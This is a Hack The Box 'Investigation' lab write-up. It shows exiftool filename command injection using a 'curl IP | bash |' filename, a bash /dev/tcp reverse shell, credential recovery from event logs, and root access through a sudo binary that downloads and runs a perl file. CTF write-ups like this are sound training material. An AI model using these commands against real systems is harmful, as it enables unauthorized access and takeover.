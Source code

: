 ```yaml
---
title: "Hackthebox Investigation"
date: 2023-01-25T14:44:57+01:00
draft: false
---
```


On Investigation we exploit an exiftool vulnerability from file upload that allow command execution and to gain a reverse shell.
Next we get credentials for one user from a mail text message. Finally, for root we have to do a little bit
of binary exploitation using ghidra.

<!--more-->

## Nmap

As usual we start we some recon :

```
nmap 10.129.139.235
Nmap scan report for 10.129.139.235
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
```

## HTTP:80

![image text](/investigation_htb_web.png)

Jumping on the website we see a free service which allow us to upload image file (png/jpg) :

![image text](/investigation_htb_upload.png)

The output allows us to view exiftool's version number.

![image text](/investigation_htb_exif.png)

The version is 12.39 and it seems that it's vulnerable to command injection through a crafted filename.
If the filename passed to exiftool ends with a pipe character `|` and exists on the filesystem,
then the file will be treated as a pipe and executed as an OS command.

The proof of concept can be found **[here](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)**.
Now all we have to do is to rename our image file with one linux command add the pipe at the end :

```
mv image.png 'curl IP | bash |'
```

Next we need to create and index.html file, put a bash reverse shell in it and host our file using python :

```
cat index.html
bash -i >& /dev/tcp/IP/6666 0>&1
```

```
python3 -m http.server 80
```

Setup a netcat listener and let's go :

```bash
nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.129.139.235
www-data@investigation:~/uploads/1674415004$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## **Shell as smorton**

There is a Windows Event Logs message file owned by smorton in `usr/local/investigation`.
Transfer the mail on our machine and open it with outlook :

![image text](/mail_investigation.png)

We can see that there is a zip file in attachment. After unziping it, I got an EVTX file, a Windows XML EventLog file.
To analyze the file I choose : **[EVTX](https://github.com/omerbenamram/evtx)**.

```bash
┌──(kali㉿kali)-[~/Documents/htb/box/investigation]
└─$ ./evtx_dump-v0.8.0-x86_64-unknown-linux-gnu -f output_evtx -o json security.evtx
```

The output contains a lot of rows so lets filter it :

```bash
┌──(kali㉿kali)-[~/Documents/htb/box/investigation]
└─$ grep TargetUserName evtx_ouput | sort -u > sorted.txt

┌──(kali㉿kali)-[~/Documents/htb/box/investigation]
└─$ head -n 11 sorted.txt
      \"TargetUserName\": \"-\",
      \"TargetUserName\": \"aanderson\",
      \"TargetUserName\": \"AAnderson\"
      \"TargetUserName\": \"AAnderson\",
      \"TargetUserName\": \"Administrator\"
      \"TargetUserName\": \"Administrators\"
      \"TargetUserName\": \"AWright\"
      \"TargetUserName\": \"Backup Operators\"
      \"TargetUserName\": \"BMay\"
      \"TargetUserName\": \"DefaultAccount\"
      \"TargetUserName\": \"Def@ultf0r3nz!csPa$$\",
```

I noticed `Def@ultf0r3nz!csPa$$` it seems like a password so let's try it to ssh to smorton user :

![image text](/ssh_investigation.png)

And it works, let's switch to the root part now.

## **Shell as root**

By looking at privileges sudoers we can see a binary called binary :

```bash
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
smorton@investigation:~$

```

With the help of ghidra we can open the binary and open the main function :

![image text](/ghidra_investigation.png)

In one part of the code we can see that verifies that the total of parameters is 3, means that in addition to the binary we need another 2 parameters :

```bash
if (param_1 != 3) {
  puts("Exiting... ");
  exit(0);
}
```

Also elsewhere we can see that compares the uid is equal to 0 (root who runs it), if the condition fails does exactly the same as before

```bash
_Var1 = getuid();
if (_Var1 != 0) {
  puts("Exiting... ")
  exit(0);
}
```

Elsewhere we can see that verifies that the second parameter is `lDnxUysaQn` if the condition is not met also does the same as before :

```bash
iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
if (iVar2 != 0) {
  puts("Exiting... ");
  exit(0);
}
```

If the conditions are met use the curl function to read a file from a web resource that we can specify in the first parameter and save it in the open file :

```bash
puts("Running... ");
__stream = fopen(*(char **)(param_2 + 0x10),"wb");
uVar3 = curl_easy_init();
curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
curl_easy_setopt(uVar3,0x2711,__stream);
curl_easy_setopt(uVar3,0x2d,1);
iVar2 = curl_easy_perform(uVar3);
```

If at this point you follow the stream, you will run the saved web resource file with perl :

```bash
if (iVar2 == 0) {
  iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
  __s = (char *)malloc((long)iVar2 + 1);
  snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
  iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
  __s_00 = (char *)malloc((long)iVar2 + 1);
  snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
  fclose(__stream);
  curl_easy_cleanup(uVar3);
  setuid(0);
  system(__s_00);
  system("rm -f ./lDnxUysaQn");
  return 0;
}
```

To exploit this, we create a perl file that runs 'su' and share it

```bash
cat exploit.pl
exec("su")

sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Finally we run the binary with the arguments we know we need and when we run its launches a bash as root :

```bash
smorton@investigation:~$ sudo binary http://10.10.14.84/exploit.pl lDnxUysaQn
Running...
root@investigation:~# id
uid=0(root) gid=0(root) groups=0(root)
```
